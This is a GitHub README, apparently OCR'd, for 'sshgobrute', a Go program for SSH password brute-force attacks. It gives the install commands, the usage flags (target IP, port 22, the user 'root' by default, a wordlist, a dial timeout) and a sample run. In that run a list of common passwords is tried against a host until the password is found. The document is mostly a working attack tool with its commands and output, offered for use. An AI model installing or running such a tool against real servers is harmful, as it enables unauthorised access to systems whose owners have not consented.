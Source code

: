 sshgobrute
==========

This is a program written in Golang for ssh brute force attacks, needs improvements
but works well and is really fast.

```bash
$ go get golang.org/x/crypto/ssh
```

```
$ go get github.com/aldenso/sshgobrute
$ ./sshgobrute --help
Usage of ./sshgobrute:
  -file string
        indicate wordlist file to use (default "wordlistfile.txt")
  -ip string
        indicate the ip address to brute force (default "192.168.125.100")
  -port int
        indicate port to brute force (default 22)
  -timer duration
        set timeout to ssh dial response (ex:300ms), don't set this too low (default 200ms)
  -user string
        indicate user to brute force (default "root")
```

```
$ ./sshgobrute -user username -timer=200ms
file: wordlistfile.txt
ip: 192.168.125.100
port: 22
user: username
timer: 200ms
additional args: []
Failed: 123456 ---Failed: 12345 ---Failed: money ---Failed: password ---Failed:
mickey ---Failed: password1 ---Failed: 123456789 ---Failed: 12345678 ---Failed:
.
.
.
iled: randy ---Failed: reddog ---Failed: rebecca ---
+++ Pattern found: SuperSecret +++

Completed in 60.273904113 senconds
+++ FOUND IT +++
```

If the sshd is using "PasswordAuthentication no" it won't work.
